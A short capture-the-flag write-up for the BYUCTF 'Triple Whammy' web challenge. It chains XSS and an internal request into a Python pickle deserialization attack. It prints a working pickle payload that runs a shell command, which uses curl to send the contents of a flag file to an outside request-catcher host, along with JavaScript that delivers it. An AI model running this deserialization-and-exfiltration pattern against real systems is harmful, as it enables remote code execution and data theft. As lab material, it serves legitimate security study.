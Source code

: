 <font size = '4'>
<p align = 'center'>
<b>
BYUCTF - Triple Whammy Writeup 
</b>
</p>
</font>

<br>
<font size = '3'>

<b>Challenge Description:</b><br>

Server - https://triple-whammy.chal.cyberjousting.com/

Admin bot - https://triple-whammy-admin.chal.cyberjousting.com/

[triple-whammy.zip]

<br>

<b>Exploitation:</b><br>

Web app is vulnerable to XSS, and a pickle deserialization attack, which can lead to code execution.

```python
import pickle

class Exploit(object):
    def __reduce__(self):
        import os
        return (os.system, ('curl https://lego.requestcatcher.com/flag?$(cat /ctf/flag.txt)',))
    
exploit = pickle.dumps(Exploit()).hex()
```

Basically serializes the cmd and converts it to hex.

```python
fetch('/query', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    'url': f'http://127.0.0.1:5902/pickle?pickle={exploit}'
  })
})
```

So, `<script>` tags are inserted into name for XSS. The JS makes a POST request to the /query endpoint. Data is deserealized, cmd is executed, flag is catted.